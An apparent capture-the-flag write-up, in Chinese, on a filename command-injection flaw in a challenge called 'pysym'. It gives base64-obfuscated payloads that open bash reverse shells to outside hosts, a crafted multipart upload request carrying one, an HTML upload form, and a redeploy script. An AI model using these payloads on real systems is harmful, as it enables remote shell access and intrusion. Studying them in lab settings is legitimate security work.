 ### pysym

![image-20230620002246004](C:\Users\28595\AppData\Roaming\Typora\typora-user-images\image-20230620002246004.png)

命令直接拼接了，直接命令注入，

```
a||`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEuMS4xLjEvMzk5OTkgMD4mMQ==|base64 -d|bash -i`#


L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDkuMTI4LzU0MzIxIDA+JjE=
```

文件名注入的http请求：

```
POST / HTTP/1.1
Host: 1.1.1.1:12345
Content-Length: 277
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryLtw6UwBXBsZ5zrtu

------WebKitFormBoundaryLtw6UwBXBsZ5zrtu
Content-Disposition: form-data; name="file"; filename="a||`echo L2Jpbi9iYXNoIC1pID4mIC9kZXYvdGNwLzEuMS4xLjEvMzk5OTkgMD4mMQ==|base64 -d|bash -i`#"
Content-Type: image/jpeg

asdasd
------WebKitFormBoundaryLtw6UwBXBsZ5zrtu--

```

post文件上传包： 自己伪造文件上传，在本地运行即可

```
<!DOCTYPE html>
<html>
<head>
	<meta charset="utf-8">
	<title>POST传输数据包</title>
</head>
<body>
	<form action="http://1.1.1.1:12345/" method="post" enctype="multipart/form-data">
		<label for="file">文件名：</label>
		<input type="file" name="file" id="file"><br>
		<input type="submit" name="submit" value="提交">
	</form>
</body>
</html>
```

###### fix:

update.sh:

```
#!/bin/sh

cp app.py ../ctfpy/app.py
ps -ef | grep python | grep -v grep | awk '{print $2}' | xargs kill -9 
cd ../ctfpy && nohup python app.py  >> /opt/app.log 2>&1 &
```
